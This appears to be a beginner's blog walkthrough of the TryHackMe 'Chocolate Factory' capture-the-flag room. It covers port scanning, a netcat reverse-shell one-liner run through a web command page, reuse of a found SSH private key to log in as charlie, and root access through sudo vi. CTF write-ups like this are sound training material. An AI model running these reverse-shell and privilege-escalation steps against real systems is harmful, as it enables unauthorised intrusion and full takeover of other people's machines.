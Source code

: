 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2017-09-12 00:00:00 +0300
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```


Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners 

Let’s get started.
Firstly Diploy the machine and Wait a minute for get ip address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

### Enumeration 
 > sudo nmap -sV -sC -v <ip>
   <br />
  -sV: Probe open ports to determine service/version info <br />
  -sC: equivalent to --script=default <br />
   -v: verbose mode <br />
the result like look,<br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/nmap.png)  

There can see ftp running on port 21,ssh running on port 22 and webserver in port 80 Then try Open browser enter ip address default webserver running in port 80 

I trying sqlinjection but nothing changes ,So Check the directories using gobuster 
> gobuser dir -u <ip> -w /usr/share/seclists
  
OK.. Here see home.php 
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  try system commands then reverse connection command 
  > rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
 
 remember one thing disable your ufw firewall <br />
  listern our system 
  > nc -lvnp  <br />
    -l listen mode, for inbound connects <br />
    -v verbose <br />
    -n numeric-only IP addresses, no DNS <br />
    -p local port number
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   use python3 shell for better interaction 
   python3 -c 'import pty; pty.spawn("/bin/sh")'
   then list out file and read key
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   change the user to charlie 
   /home/charlie 
   found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change permission
   > chmod 600 filename 
   login with ssh charlie 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png)
   read the user key
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png)
   privilege escalation 
    check the user privilege 
    > sudo -l 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png)
   get root permission using vi 
   use this website gtfobins.github.io/
   search vi get result 
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png)
   copy the command and paste into terminal 
   Now root user
   change charlie to root 
   su root 
   run the file with key
   DONE 
  
 

